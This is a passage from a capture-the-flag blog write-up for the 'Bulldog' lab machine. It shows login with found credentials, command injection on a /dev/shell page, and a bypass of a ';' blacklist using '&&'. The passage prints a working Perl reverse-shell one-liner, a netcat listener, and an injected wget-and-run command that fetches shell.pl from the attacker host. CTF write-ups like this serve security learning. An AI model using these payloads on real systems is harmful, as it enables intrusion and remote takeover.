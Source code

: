 <img src="/img/blog/Bulldog05.png">

Indeed we are! Let's login using `sarah:bulldoglover` or `nick:bulldog` credentials and see what we get.

<img src="/img/blog/Bulldog06.png">
[DONT INSERT IMAGE 7 HERE]

A dead end from the interface. Not having enough privileges, I do not think we can do much. I've spent almost 20 minutes trying to see what I can do within the admin panel and only then realized my stupid mistake. Remember the **/dev/shell/** directory which required authentication before accessing it? Why won't we try again and see what it shows now?

<img src="/img/blog/Bulldog08.png">

Wooho! Possible [command injection](https://www.owasp.org/index.php/Command_Injection)? Of course! Similar vulnerability was described in my previous [Kioptrix2 blog](https://v3ded.github.io/ctf/kioptrix2.html), so there won't be any explaining here. After some digging around I noticed that `;` is blacklisted and results into this message:

<img src="/img/blog/Bulldog09.png">

Interesting... Luckily, there are many bypasses for such simple blacklist. For example using encoding (didn't work this time) or some other alternatives such as `&&` (AND operator). All in all, `&&` successfully bypasses the blacklist and gives us the ability to enter any command of our choosing. Wonderful.

Proof:
<img src="/img/blog/Bulldog10.png">
   
Time to get a sweet shell. This writeup is *metesploit-free* which means we will depend on manual exploitation and reverse connection rather than using msfvenom & handler. Sorry!

1. Make a perl file in our webroot (/var/www/html/)
2. Put perl reverse shell payload into our file (look below)
3. Start our apache2 or python SimpleHTTPServer (*/etc/init.d/apache2 start*)
4. Make the victim download our malicious file via wget from the server & run it.

[Pel shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
{% highlight perl %}

use Socket;$i="192.168.0.213";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

{% endhighlight %}

`192.168.0.213 - machine for reverse connection (in this case my kali)`
`1234 - port to connect back to` 

After we launch netcat listener - `nc -lvp 1234`, download and run the perl file on victim machine using: `pwd && wget 192.168.0.213/shell.pl && perl shell.pl`. *wget* downloads the file and *perl* compiles + runs it. 

<img src="/img/blog/Bulldog11.png">
